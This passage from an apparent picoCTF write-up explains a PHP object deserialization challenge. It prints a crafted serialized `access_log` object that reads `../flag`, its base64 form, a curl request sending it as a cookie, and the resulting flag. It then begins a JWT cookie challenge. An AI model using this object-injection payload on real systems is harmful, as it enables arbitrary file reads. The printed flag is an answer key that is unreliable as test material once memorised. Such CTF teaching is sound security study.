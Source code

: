 Looking at the source code, it’s clearly dealing with PHP object serialization.  
There’s a class called `access_log` with methods like `__construct()` and `__toString()` — strong signs of a deserialization vulnerability.

Here’s how the class works:

*   `log_file` is a **public** variable that stores a file path (can be controlled by us).
*   `__toString()` calls `read_log()` which reads whatever file is in `log_file`.

Then in `cookie.phps`, we see this:

<pre>
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
</pre>

If an error occurs, the script dies and prints:

<pre>
Deserialization error. $perm
</pre>

And since `__toString()` is triggered, it will try to read the file we set in `log_file`.

So we craft a malicious object to read the flag from `../flag`.

Serialized payload:

<pre>
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
</pre>

Base64 encode it:

<pre>
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
</pre>

Now make a request with this cookie:

<pre>
curl mercury.picoctf.net:25395/authentication.php \
  -H 'Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9'
</pre>

And we got the flag in the response!

> picoCTF{th15\_vu1n\_1s\_5up3r\_53r1ous\_y4ll\_405f4c0e}

**24\. Most Cookies**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*NvRXe1oCMYRe3wrwJd_z6g.png)

We land on a cookie search page — and a session cookie gets set.

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*wpY7qtHzgVDbD2k7Zv4LAw.png)

Paste it into [jwt.io](https://jwt.io), and got:

<pre>
{  
"very_auth": "snickerdoodle"  
}
</pre>
